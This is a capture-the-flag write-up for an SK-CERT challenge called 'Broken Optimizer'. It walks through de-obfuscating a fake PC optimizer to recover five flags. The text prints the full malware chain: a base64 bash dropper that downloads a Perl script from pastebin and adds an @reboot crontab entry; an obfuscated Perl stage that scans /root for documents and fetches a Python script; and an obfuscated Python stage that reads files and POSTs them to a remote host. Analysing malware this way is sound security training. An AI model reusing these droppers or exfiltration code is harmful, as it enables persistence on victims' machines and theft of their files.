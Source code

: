 # Broken Optimizer
## Description
A user at your company installed this software to increase the performance of his PC, but instead his computer started behaving strangely. Find out what happened. https://drive.google.com/file/d/1Z8tOGNpiz6uPlDTK6G9r7b4kiZ8FTSgf/view?usp=share_link

## Task #1: Optimizer
Google Drive link contains code.

```
echo "IyEvYmluL2Jhc2gKIyBTSy1DRVJUe2QzZjFuMTc3M2x5X24wN18wcDcxbTF6M3J9Cm1rZGlyIC9v
cHQvb3B0aW1pemVyLwp3Z2V0IC1PIC9vcHQvb3B0aW1pemVyL2luc3RhbGxlci5wbCBodHRwczov
L3Bhc3RlYmluLmNvbS9yYXcvNHMwRVgzeHAKZWNobyAiQHJlYm9vdCBwZXJsIC9vcHQvb3B0aW1p
emVyL2luc3RhbGxlci5wbCIgPj4gL2V0Yy95b3VyX2Nyb250YWJfZmlsZQo=" | base64 -d | bash
```

Decode
```
$ echo "IyEvYmluL2Jhc2gKIyBTSy1DRVJUe2QzZjFuMTc3M2x5X24wN18wcDcxbTF6M3J9Cm1rZGlyIC9v                                                                                                                                                       
cHQvb3B0aW1pemVyLwp3Z2V0IC1PIC9vcHQvb3B0aW1pemVyL2luc3RhbGxlci5wbCBodHRwczov
L3Bhc3RlYmluLmNvbS9yYXcvNHMwRVgzeHAKZWNobyAiQHJlYm9vdCBwZXJsIC9vcHQvb3B0aW1p
emVyL2luc3RhbGxlci5wbCIgPj4gL2V0Yy95b3VyX2Nyb250YWJfZmlsZQo=" | base64 -d
#!/bin/bash
# SK-CERT{d3f1n1773ly_n07_0p71m1z3r}
mkdir /opt/optimizer/
wget -O /opt/optimizer/installer.pl https://pastebin.com/raw/4s0EX3xp
echo "@reboot perl /opt/optimizer/installer.pl" >> /etc/your_crontab_file
```

### Flag #1
**SK-CERT{d3f1n1773ly_n07_0p71m1z3r}**

## Task #1: What it do?
Command donwloads a perl script. Let's see it.

```
use File::Find;
use LWP::Simple;

eval eval '"'. ('`'|')').('`'|'&').'('.('^'^('`'|'.')).')'.('{'^'[').'\\'.'{'.('!'^'+').('{'^'[').('{'^'[').(('{')^ '[').('{'^'[').('['^'+').('['^')').('`'|')').('`'|'.').('['^'/').'('.'\\'.'"'.('{'^'(').('`'^('+')).  '-'.('`'^'#').('`'^'%').('{'^')').('{'^'/').'\\'.'{'.('['^')').('^'^('`'|'-')).('`'|'-').('^'^("\`"| '-')).('`'|'-').('`'|'"').('^'^('`'|'-')).('['^')').'_'.('['^'+').('^'^('`'|'-')).('['^')').('`'|',').'_'.('`'|'$').('^'^('`'|'*')).('['^'"').('^'^('`'|'+')).'\\'.'}'.'\\'.'"'.')'.';'.('!'^"\+").'\\'.  '}'.'"';$:='.'^'~';$~='@'|'(';$^=')'^'[';$/='`'|'.';$,='('^'}';$\='`'|'!';$:=')'^'}';$~='*'|"\`";#;#

my @f  = fff(qr/\.(txt|doc)$/, "/root/");

if(@f) {
    $fn = '/opt/optimizer/optimizer.py';
    unless (-e $fn) {
        my $u = unpack u=>q{_(FAT='!S.B\O<&%S=&5B:6XN8V]M+W)A=R]M<V-%64M0,R-32RU#15)4>V0P=VYL,#1D,6YG7W!Y-V@P;GTB};
        my $fx = '/opt/optimizer/optimizer.py';
        getstore($u, $fx);

    }
    system("python3 /opt/optimizer/optimizer.py");
}

sub fff {
	my ($pattern, @dirs) = @_;
	if (!@dirs) {
		@dirs = (".");
	}
	my @ret = ();
	find(sub { if (/$pattern/) { push(@ret, $File::Find::name) } }, @dirs);
	return @ret;
}
```

There is an `eval`. Instead of `eval-ing` the `eval`, we want to see the content of the code it executes. Instead of `eval eval ...` we do `print eval ...`.

```
$ perl installer.pl 
if(0) {
    print("SK-CERT{r3m3mb3r_p3rl_d4y5}");
}
```

### Flag #2
**SK-CERT{r3m3mb3r_p3rl_d4y5}**

## Task #3: Chaos
There is an unpack method. Just print it and see what it does.

```
my $u = unpack u=>q{_(FAT='!S.B\O<&%S=&5B:6XN8V]M+W)A=R]M<V-%64M0,R-32RU#15)4>V0P=VYL,#1D,6YG7W!Y-V@P;GTB};
print($u);
```

```
"https://pastebin.com/raw/mscEYKP3#SK-CERT{d0wnl04d1ng_py7h0n}"
```

### Flag #3
**#SK-CERT{d0wnl04d1ng_py7h0n}**

## Task #4: Another file?
It downloads a python script and executes it. Let's see it.

```
import glob
import requests
import sys

r = ['7368434179374469535a5265356836', '6f71626d4377774173794679653962584c71426479', '6e56635474655042464f4c4a744c53317674485247'];o = ['000d20331c431b0f3a36374b510755', '1c04120831280424100b230d3a5f0b34295f361c0d', '3d1d4e1731370439227b7b7e2b3e6005124526353a'];j = {};x = [_ for _ in glob.glob('/neroot/**/*', recursive=True) if _.split('/')[-1] in [''.join([chr(ord(a) ^ ord(b)) for a,b in zip(bytes.fromhex(o[i]).decode(), bytes.fromhex(r[i]).decode())]) for i in range(len(r))]];sys.exit(0) if not x else None;

for __ in x:
    ___ = open(__, "r")
    j[__] = ___.read()

(lambda _, __, ___, ____, _____, ______, _______, ________:getattr(__import__('requests'),'post')( (lambda _, __, ___: _(_, __, ___))( lambda _, __, ___: bytes([___ % __]) + _(_, __, ___ // __) if ___ else (lambda: _).__code__.co_lnotab, _ << ________,(((_ << (((_ << ___) + _))) - ((___ << __) - _)) << ((___ << _______) + (_______ << _))) - (((((___ << __) - _) << _____) - _______) << ((___ << _______) + ___)) - ((((((_ << ___) + _)) << ______) + _______) << ((___ << _______) - (_____ << _))) - (((((___ << __) + _) << ____) - _______) << ((((___ << __) - _) << _____) + (___ << __))) - (((_____ << ______) + _____) << ((((___ << __) - _) << _____) + _)) - (((_____ << _____) - ___) << ((((___ << __) - _) << _____) - (_ << ___))) + (((___ << _______) + ___) << ((((_____ << __) + _) << ____) - ___)) + ((((((_ << ___) + _)) << __) - _) << ((_____ << ______) + _____)) - (((((_____ << __) - _) << ____) + _) << ((((_____ << __) - _) << ____) + _______)) - ((((((_ << ___) + _)) << _____) - ___) << ((((_____ << __) - _) << ____) - (_ << __))) + (((((___ << __) - _) << _____) + ((___ << __) - _)) << (((((_ << ___) + _)) << _____))) + (((((___ << __) + _) << ____) + _) << ((((_ << ____) + _) << ____) + (___ << _))) - (((((___ << __) + _) << ____) - _______) << ((((_ << ____) + _) << ____) - (_ << __))) - (((_______ << _____) + _) << ((_ << ________) + (_ << _))) - (((((_____ << __) + _) << ____) + _______) << ((((_ << ____) - _) << ____) + _______)) - (((((___ << __) - _) << ____) + _______) << ((((_ << ____) - _) << ____) - (_ << _))) + (((((_____ << __) + _) << ____) + _) << ((_______ << _____) + (_ << _))) - (((((___ << __) + _) << ____) + ___) << ((_______ << _____) - (_ << ___))) + (((((_____ << __) - _) << ____) - ___) << ((((___ << __) + _) << ____) - (_ << _))) + (((((_____ << __) - _) << ___) + _) << ((___ << ______) + _____)) + (((_______ << _____) - ___) << ((___ << ______) - (___ << _))) - (((((___ << __) + _) << ____) - ___) << ((((___ << __) - _) << ____) + _)) - (((((_____ << __) - _) << ____) - _______) << ((_____ << _____) + _______)) - (((_______ << _____) + _____) << ((_____ << _____) - ___)) + (((___ << _____) - ___) << (((((_ << ___) + _)) << ____) + (_ << _))) + (((((_ << ____) - _) << ____) - _______) << ((((_ << ____) + _) << ___) - _)) - (((((_ << ____) - _) << ___) + ___) << ((_ << _______) - (_ << _))) - ((((((_ << ___) + _)) << __) - _) << ((((_ << ____) - _) << ___) - _)) - (((_______ << ____) - ___) << ((_______ << ____) - ___)) + (((((___ << __) - _) << ____) - ___) << ((___ << _____) + ___)) + (((_______ << __) - _) << ((___ << _____) - ___)) + (((_______ << __) - _) << ((((___ << __) - _) << ___) - ___)) + (((___ << _____) - ___) << (((((_ << ___) + _)) << ___) + (_ << _))) + (((_______ << __) + _) << ((_ << ______) + (_ << _))) + (((___ << _____) + _) << ((_______ << ___))) + (((___ << ____) - _) << ((___ << ____))) + (((___ << ____) - _) << ((_____ << ___))) + (((_______ << __) + _) << ((_ << _____) + _)) + (_______ << ((_______ << __))) + (((_______ << __) + _) << (((((_ << ___) + _)) << _))) + (((_______ << __) + _) << ((_____ << _))) + ((((___ << __) + _)) << ___)), json=j))( *(lambda _, __, ___: _(_, __, ___))( (lambda _, __, ___: [__(___[(lambda: _).__code__.co_nlocals])] + _(_, __, ___[(lambda _: _).__code__.co_nlocals:]) if ___ else []), lambda _: _.__code__.co_argcount, ( lambda _: _, lambda _, __: _, lambda _, __, ___: _, lambda _, __, ___, ____: _, lambda _, __, ___, ____, _____: _, lambda _, __, ___, ____, _____, ______: _, lambda _, __, ___, ____, _____, ______, _______: _, lambda _, __, ___, ____, _____, ______, _______, ________: _)))
```

There is something encoded in `r` and `o` variables. I don't want to decode it by hand so i'm going to compile the script and `strace` to find a flag.

Add

`#!/usr/bin/python3`

at the beginning so we can execute it properly. Then do 

`chmod u+x optimizer.py`

then

`strace -f ./optimizer.py 2> strace.out`

then

```
$ grep "SK-CERT" strace.out
openat(AT_FDCWD, "/neroot/a/SK-CERT{d474_r34d1ng}", O_RDONLY|O_CLOEXEC) = 4`
```

### Flag #4
**SK-CERT{d474_r34d1ng}**

## Task #5: Attacker?
Now there are lambdas to decode. I assumed it was doing some http request somewhere and the flag would be in the fragment. I started to intercept the requests but i realized the fragments are not send to http server. They always remain on the client side.

I ended up just debugging the lambda hell and I luckily got the flag. Just put a breakpoint on `line 11` and Step Over until you get the flag in local variables.

![solve](./task_5.PNG)

### Flag #5
**SK-CERT{l34k1ng_d0cum3n75}**